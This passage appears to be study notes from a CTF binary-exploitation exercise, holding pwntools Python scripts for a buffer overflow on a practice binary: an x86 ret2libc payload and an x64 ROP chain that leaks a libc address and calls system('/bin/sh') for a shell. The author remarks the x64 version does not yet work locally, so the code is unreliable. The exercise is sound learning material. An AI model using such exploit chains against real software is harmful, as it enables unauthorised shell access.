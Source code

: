 ```python
""" pause()
gdb.attach(io)
pause() """
payload2 = flat([b'a'* padding , system_addr , 0xdeadbeef , bin_sh_addr ])
delimiter = 'input:'
io.sendlineafter(delimiter, payload2)
io.interactive()
```

x64:还有点问题，本地没打通

```python
from pwn import *
context(log_level='debug',arch='amd64', os='linux')
pwnfile= './question_5_x64'
io = process(pwnfile)
#io = remote('', )
elf = ELF(pwnfile)
rop = ROP(pwnfile)

padding = 0x10

gdb.attach(io)
pause()

leak_func_got=0x404018
return_addr=elf.symbols['dofunc']
write_sym = elf.symbols['write']
pop_rdi_ret = 0x4011fb
pop_rsi_r15_ret = 0x4011f9
payload = b'a'* padding + p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(leak_func_got) + p64(0xdeadbeef)
payload += p64(write_sym) + p64(return_addr)

delimiter = 'input:'
io.sendlineafter(delimiter, payload)


io.recvuntil('byebye')
write_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('write_addr:',hex(write_addr))

wirte_offset = 0xEEF20
libc_addr = write_addr - wirte_offset
print('libc_addr:',hex(libc_addr))

system_offset = 0x48E50
system_addr = libc_addr + system_offset
print('system_addr:',hex(system_addr))

bin_sh_offset = 0x18A156-4
bin_sh_addr = libc_addr + bin_sh_offset
print('bin_sh_addr:',hex(bin_sh_addr))


payload2 = b'a'* padding + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)
delimiter = 'input:'
io.sendlineafter(delimiter, payload2)
# pause()
io.interactive()
```
